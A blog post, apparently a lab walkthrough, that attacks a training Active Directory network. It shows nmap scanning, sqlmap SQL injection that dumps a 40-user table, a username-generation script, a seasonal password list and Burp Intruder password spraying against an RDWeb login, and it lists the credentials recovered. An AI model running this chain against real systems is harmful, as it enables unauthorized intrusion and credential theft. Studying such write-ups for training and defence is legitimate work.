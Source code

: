 ```yaml
---
layout: post
title: Active Dirctory Adventures part 1
---
```


Windows Active Directory is a database of network reasorce objects. That proliferates in modern enterprise network architectures.
This post is about going from external client to Domain Controller using some fun tools and tricks.

There is a firewall in place so we scan some likely ports with the no ping (-Pn) option and add increased speed (-T4) and version detection (-sV)


`nmap -T4 -sV -Pn -p80,443 10.7.12.0/24`

![](https://braaaax.github.io/braaaax.github.io/images/lky-nmap.jpg)

We bust the http ports for available directories and find on on 10.7.12.12/mvc, a sales site and uses a backend database to manage its merchandise information.

![](https://braaaax.github.io/braaaax.github.io/images/lky-site.jpg)


The url shows an aspx script that makes a call to the databse to retrieve product information.
We capture the request with Burp Suite and probe this injection point with sqlmap.

```
GET /mvc/Product.aspx?ProductSubCategoryId=18 HTTP/1.1
Host: 10.7.12.12
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.7.12.12/mvc/
Cookie: __AntiXsrfToken=e1e188c81f744fad9a0d59ef8c17af71
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1  
```

We can use the copy to file function and write the request to procuct.req and then sick sqlmap on it.


`sqlmap -r product.req --level=5 --risk=3`

This proves successful and we are able to dump the entire database. 
Of interest is a table giving Active Directory users fullnames and their respective groups

```
Database: ADConnect
Table: ADUsers
[40 entries]
+------------+-------------+-----------------+
| LastName   | FirstName   | Department      |
+------------+-------------+-----------------+
| Vazquez    | Annie       | Finance         |
| Falcon     | Paul        | Finance         |
| Anthony    | Fae         | Finance         |
| Dillard    | Walter      | Finance         |
| Bradford   | Louis       | Finance         |
| Gage       | Sonya       | Finance         |
| Sanchez    | Alba        | Finance         |
| Branch     | Daniel      | Finance         |
| Cruz       | Christopher | Finance         |
| Johnson    | Nicole      | Finance         |
| Holliday   | Mary        | Human Resources |
| Shoemaker  | Michael     | Human Resources |
| Slater     | Arlene      | Human Resources |
| Prentiss   | Kelsey      | Human Resources |
| Davis      | Ginger      | Human Resources |
| McDaniel   | Johnny      | Human Resources |
| Jones      | James       | Human Resources |
| Garcia     | Thomas      | Human Resources |
| Harrison   | Melissa     | Human Resources |
| Hight      | Nicholas    | Human Resources |
| Baird      | William     | Marketing       |
| Ochoa      | Michelle    | Marketing       |
| Hopkins    | Joshua      | Marketing       |
| Blea       | Howard      | Marketing       |
| Pennington | Clara       | Marketing       |
| Glen       | David       | Marketing       |
| Hartsfield | Kim         | Marketing       |
| Ramirez    | Rita        | Marketing       |
| Hafner     | Opal        | Marketing       |
| Matthews   | Louie       | Marketing       |
| Okeefe     | Lee         | Sales           |
| Burrows    | Roger       | Sales           |
| Steele     | Charles     | Sales           |
| Wallace    | Juan        | Sales           |
| Lewis      | Donita      | Sales           |
| Santiago   | Juanita     | Sales           |
| Shepherd   | Wesley      | Sales           |
| Brown      | Steven      | Sales           |
| Wilson     | Johnny      | Sales           |
| May        | Juan        | Sales           |
+------------+-------------+-----------------+
```

Dirbusting the other open http/s ports we find /rdweb access ie remote dsktop web access. 
If we can derive the correct username given the full names of the AD users we can test weak passwords with the rdweb login.

For this one can use a tool like burp intruder:
enter "LAB/USERNAME" and "PASSWORD" into the login field and capture with burp/zap proxy:

```
POST /RDWeb/Pages/en-US/login.aspx?ReturnUrl=%2FRDWeb%2FPages%2Fen-US%2FDefault.aspx HTTP/1.1
Host: 10.7.12.11
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.7.12.11/RDWeb/Pages/en-US/login.aspx?ReturnUrl=%2FRDWeb%2FPages%2Fen-US%2FDefault.aspx
Cookie: TSWAFeatureCheckCookie=true; TSWAAuthClientSideCookie=Name=DOMAIN%5CUSERNAME&MachineType=private&WorkSpaceID=RDS02.lab.local
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 293

WorkSpaceID=RDS02.lab.local&RDPCertificates=&PublicModeTimeout=20&PrivateModeTimeout=240&WorkspaceFriendlyName=Work%2520Resources&EventLogUploadAddress=&RedirectorName=RDS02.lab.local&ClaimsHint=&ClaimsToken=&isUtf8=1&flags=4&DomainUserName=LAB%5Cavasquez&UserPass=PASSWORD&MachineType=private
```


```python
import csv
with open("/root/.sqlmap/output/10.7.12.12/dump/ADConnect/ADUsers.csv") as csvfile:
    reader = csv.DictReader(csvfile)
    for row in reader:
        print('{}{}'.format(row['FirstName'][0].lower(), row['LastName'].lower()))
```

Passords List:
Summer2017!
Winter2017!
Fall2017!
Spring2017!
Summer2018!
Winter2018!
Fall2018!
Spring2018!

Intruder: 
*  you can use the "cluster bomb" attack
*  remove the placeholders save for the the two USERNAME fields and the the PASSWORD field
*  we are relating payloads to a given placeholder here so use the userlist you created for placeholder1 and copy that lost for paload 2 and use a password list for payload 3
*  make sure to Always Follow Redirection in the options tab


User Credentials Found:
avazquez:Spring2017!
mholliday:Summer2017!
wbaird:Autum2017!



[Jekyll Now repository](https://github.com/barryclark/jekyll-now) on GitHub.
